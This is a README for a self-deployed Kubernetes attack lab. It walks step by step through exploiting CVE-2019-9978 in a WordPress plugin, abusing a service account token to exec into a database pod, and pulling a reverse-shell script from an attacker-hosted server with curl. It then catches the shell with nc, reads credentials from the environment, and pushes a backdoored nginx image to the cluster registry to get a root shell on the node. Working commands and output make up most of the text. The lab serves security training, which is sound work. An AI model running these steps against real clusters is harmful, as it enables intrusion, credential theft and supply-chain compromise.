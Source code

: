 # What Is it?
This repository contains an automatically deployed lab for demonstrating attacker capabilities in a kubernetes cluster.

# What you need?
- docker
- kubernetes (via kubeadm on you machine)

# How make it works?

## 1. Up Kubernetes cluster via kubeadm
You can use any guide from the Internet for your system.

## 2. Clone miraclekubernetes repository
```sh
git clone https://github.com/4RAYS-by-SOLAR/kubernetesMiracle.git
```

## 3. Execute laboratory-up.sh
This is up all need services\pods\deployments\rbac e.t.c for this lab
```sh
sudo sh laboratory-up.sh
```

## 4. When you done with lab, clear your cluster
This script deletes all kubernetes resources that were created in step 3
```sh
sudo sh laboratory-down.sh
```

# Laboratory diagram
On this diagram you can see map of the lab **Kubernetes Miracle**
![Scheme](./pictures/LabScheme.png)

# Default Attack Scenario

### 1. Init Access on the Wordpress Pod via CVE-2019-9978
In our WordPress application we have the social-warfare plugin installed.
This plugin is vulnerable to CVE-2019-9978 through which RCE can be implemented

1. Up our http server with payloads 
```sh
cd payloads
python3 -m http.server 8080
```

2. Use podlist.php payload to list all pods in default namespace (we can do it cause have service account token with list pods RBAC righs (SA - wordpressowner))
```sh
http://{wordpresspodip\serviceip}/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://10.244.0.1:8080/cvewordpress/podlist.php
```
![PodList](./pictures/podlist.png)

We can find mysql pod in our namespace. Let's try to execute the command in it

### 2. Execute command use a misconfiguration of RBAC

1. So, We don't have a shell in wordpress pod. Using whoami we understand that we are working under www-data and we don't have enough rights to execute, but we can read the service account token and try to execute the command in mysql pod using it.
\
\
Try Using Curl for It (Payload in whoami.php)
```sh
curl -k   --http1.1   -H "Sec-WebSocket-Key: SGVsbG8sIHdvcmxkIQ=="   -H "Sec-WebSocket-Version: 13"   -i -N   -H "Connection: Upgrade"   -H "Upgrade: websocket"   -H "Authorization: Bearer $(cat /var/run/secrets/kubernetes.io/serviceaccount/token)"   "https://kubernetes.default.svc/api/v1/namespaces/default/pods/wordpress-mysql-5dcfb54f74-cvzfh/exec?command=whoami&container=mysql&stdin=true&stdout=true&stderr=true"

```
![Whoami](./pictures/whoami.png)

2. Download revshell on mysql pod:
```sh
curl -k   --http1.1   -H \"Sec-WebSocket-Key: SGVsbG8sIHdvcmxkIQ==\"   -H \"Sec-WebSocket-Version: 13\"   -i -N   -H \"Connection: Upgrade\"   -H \"Upgrade: websocket\"   -H \"Authorization: Bearer $(cat /var/run/secrets/kubernetes.io/serviceaccount/token)\"   \"https://kubernetes.default.svc/api/v1/namespaces/default/pods/wordpress-mysql-5dcfb54f74-pbx2f/exec?command=curl&command=-O&command=http://10.244.0.1:8080/revshell/revshell.sh&container=mysql&stdin=true&stdout=true&stderr=true\"
```
![DownloadRevShell](./pictures/revshelldownload.png)
![revshellplacement](./pictures/revshellplacement.png)

3. Activate revshell

Start listening:
```sh
root@master-node:/home/user# nc -lnvp 6666
Listening on 0.0.0.0 6666
```

Get Shell:
![activateshell](./pictures/revshellactivate.png)

4. Recon in mysql pod and find the login and password for database (it is the same as the registry)
\
Use ENV and search output:
```sh
bash-5.1# env
env
HOSTNAME=wordpress-mysql-5dcfb54f74-pbx2f
DOCKER_REGISTRY_PORT_5000_TCP_PORT=5000
MYSQL_ROOT_PASSWORD=123
DOCKER_REGISTRY_PORT_5000_TCP=tcp://10.100.123.183:5000
DOCKER_REGISTRY_PORT=tcp://10.100.123.183:5000
```

### 3. Hijacking nginx image in docker registry
1. List all images in registry
![listimages](./pictures/imageslist.png)
![nginxfound](./pictures/findnginximage.png)

2. So, We found an image nginx, but we don't see such a pod in the list of pods.
\
We can assume that it is in a different namespace. In this case, to be able to execute code in nginx, you need to hijack the container image on the basis of which it is created.

3. Let's build an image based on the basic nginx, but add revshell there with activation when starting the pod
```sh
Dockerfile
FROM nginx:latest

COPY ./revshell.sh /
RUN chmod 777 /revshell.sh

ENTRYPOINT ["/revshell.sh"]
```
\
```sh
root@master-node:/home/user/blood/miracletokubernetes/payloads/malwareimagehijacknginx# ls
Dockerfile  revshell.sh
root@master-node:/home/user/blood/miracletokubernetes/payloads/malwareimagehijacknginx# docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
nginx        latest    4cad75abc83d   2 months ago   192MB
registry     2.6.2     10b45af23ff3   5 years ago    28.5MB
root@master-node:/home/user/blood/miracletokubernetes/payloads/malwareimagehijacknginx# docker build -t docker-registry:5000/nginx:v1 .
[+] Building 0.2s (8/8) FINISHED                                                                                                  docker:default
 => [internal] load build definition from Dockerfile                                                                                        0.0s
 => => transferring dockerfile: 132B                                                                                                        0.0s
 => [internal] load metadata for docker.io/library/nginx:latest                                                                             0.0s
 => [internal] load .dockerignore                                                                                                           0.0s
 => => transferring context: 2B                                                                                                             0.0s
 => [internal] load build context                                                                                                           0.0s
 => => transferring context: 32B                                                                                                            0.0s
 => [1/3] FROM docker.io/library/nginx:latest                                                                                               0.0s
 => CACHED [2/3] COPY ./revshell.sh /                                                                                                       0.0s
 => CACHED [3/3] RUN chmod 777 /revshell.sh                                                                                                 0.0s
 => exporting to image                                                                                                                      0.0s
 => => exporting layers                                                                                                                     0.0s
 => => writing image sha256:b57dcc8bfea120cb3d4705a8a6c280100b43d93ca1e9ce76fb841cbabffd2309                                                0.0s
 => => naming to docker-registry:5000/nginx:v1                                                                                              0.0s
root@master-node:/home/user/blood/miracletokubernetes/payloads/malwareimagehijacknginx# docker push docker-registry:5000/nginx:v1
The push refers to repository [docker-registry:5000/nginx]
c68502e667c2: Pushed 
c8acd88f1e63: Pushed 
eda01226259d: Layer already exists 
fd2315f0cf24: Layer already exists 
ae2a14e88adb: Layer already exists 
27f473333e2f: Layer already exists 
d8d396eadc9a: Layer already exists 
c1a9699c6559: Layer already exists 
ea680fbff095: Layer already exists 
v1: digest: sha256:47024db27b2d6eb27e44bd95a249c2673a4bf7fa2b458cb5339d9f7dbc9ab377 size: 2192
```

As we can see, two layers were added to the image
This is exactly our revshell

4. We wait until the pod is restarted, then our revshell will be activated. \
As part of the lab, you can restart it yourself
```sh
root@master-node:/home/user/blood/miracletokubernetes/kuber# kubectl delete pod nginx -n outsideserver
pod "nginx" deleted
```

5. After restart nginx we get shell and see, that root filesystem is mount on nginx.
```sh
root@master-node:/home/user/blood/miracletokubernetes/kuber# kubectl apply -f podforbackdoorregistry.yaml 
namespace/outsideserver unchanged
pod/nginx created
```

```sh
root@master-node:/home/user/blood/miracletokubernetes/kuber# nc -lnvp 6666
Listening on 0.0.0.0 6666
Connection received on 10.244.0.178 45354
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@nginx:/# cat /etc/hostname
cat /etc/hostname
nginx
```

### 4. We make an impact

In this part you have access to the node and can do whatever comes into your head.
For example:
* Static Pods
* kubetcd (invisible pod creation)
* /var/log mount pod
* coredns poison
* cronjobs creation
* Cluster admin binding

Hooray!!!
